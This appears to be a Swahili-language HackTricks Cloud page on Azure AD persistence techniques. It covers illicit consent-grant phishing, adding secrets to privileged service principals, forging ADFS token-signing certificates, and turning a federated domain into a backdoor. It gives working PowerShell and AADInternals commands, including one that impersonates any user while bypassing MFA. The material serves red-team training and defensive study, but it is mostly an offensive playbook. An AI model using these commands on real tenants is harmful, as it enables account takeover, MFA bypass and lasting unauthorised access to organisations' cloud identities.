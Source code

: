# Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

Kwa kawaida, mtumiaji yeyote anaweza kujiandikisha programu katika Azure AD. Hivyo unaweza kujiandikisha programu (tu kwa ajili ya mpangilio wa lengo) inayohitaji ruhusa zenye athari kubwa kwa idhini ya msimamizi (na kuidhinisha ikiwa wewe ni msimamizi) - kama kutuma barua pepe kwa niaba ya mtumiaji, usimamizi wa majukumu n.k. Hii itaturuhusu **kutekeleza mashambulizi ya phishing** ambayo yatakuwa na **faida** kubwa endapo yatakuwa na mafanikio.

Zaidi ya hayo, unaweza pia kukubali programu hiyo kwa mtumiaji wako kama njia ya kudumisha ufikiaji juu yake.

### Applications and Service Principals

Kwa ruhusa za Msimamizi wa Programu, GA au jukumu la kawaida lenye ruhusa microsoft.directory/applications/credentials/update, tunaweza kuongeza akreditivu (siri au cheti) kwa programu iliyopo.

Inawezekana **kulenga programu yenye ruhusa kubwa** au **kuongeza programu mpya** yenye ruhusa kubwa.

Jukumu la kuvutia kuongeza kwenye programu litakuwa **jukumu la msimamizi wa uthibitishaji wenye ruhusa** kwani linaruhusu **kurekebisha nenosiri** la Wasimamizi wa Kimataifa.

Teknolojia hii pia inaruhusu **kuzidi MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Kwa uthibitisho wa msingi wa cheti

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

Kwa **privileges za DA** kwenye AD ya ndani, inawezekana kuunda na kuingiza **vyeti vipya vya kusaini Token** na **vyeti vya Kufichua Token** ambavyo vina muda mrefu wa uhalali. Hii itaturuhusu **kuingia kama mtumiaji yeyote** ambaye ImuutableID yake tunajua.

**Kimbia** amri iliyo hapa chini kama **DA kwenye seva za ADFS** kuunda vyeti vipya (nenosiri la default 'AADInternals'), viweke kwenye ADFS, zima auto rollver na anzisha huduma:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Kisha, sasisha taarifa za cheti na Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Kwa kuwa na haki za GA kwenye mteja, inawezekana **kuongeza eneo jipya** (lazima liwe limehakikishwa), kuunda aina yake ya uthibitishaji kuwa ya Shirikisho na kuunda eneo hilo **kuamini cheti maalum** (any.sts katika amri iliyo hapa chini) na mtoaji:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## References

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
